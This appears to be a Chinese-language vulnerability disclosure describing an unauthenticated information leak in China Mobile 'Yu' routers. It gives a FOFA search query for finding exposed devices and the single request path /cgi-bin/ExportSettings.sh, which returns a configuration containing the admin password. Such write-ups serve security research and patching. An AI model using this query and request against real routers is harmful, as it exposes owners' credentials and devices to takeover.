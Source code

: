 # 中国移动-禹路由-ExportSettings.sh-敏感信息泄露漏洞

## 漏洞描述

中国移动 禹路由 ExportSettings.sh 存在敏感信息泄露漏洞，攻击者通过漏洞获取配置文件，其中包含账号密码等敏感信息

## 漏洞影响

> [!NOTE]
>
> 中国移动 禹路由

## FOFA

> [!NOTE]
>
> title="互联世界 物联未来-登录"

## 漏洞复现

登录页面如下

![image-20210618173233203](中国移动-禹路由-ExportSettings.sh-敏感信息泄露漏洞.assets/16273635714663959.jpg)

访问Url

```
/cgi-bin/ExportSettings.sh
```

![image-20210618180802731](中国移动-禹路由-ExportSettings.sh-敏感信息泄露漏洞.assets/1627363571759563.jpg)

其中password为登录后台密码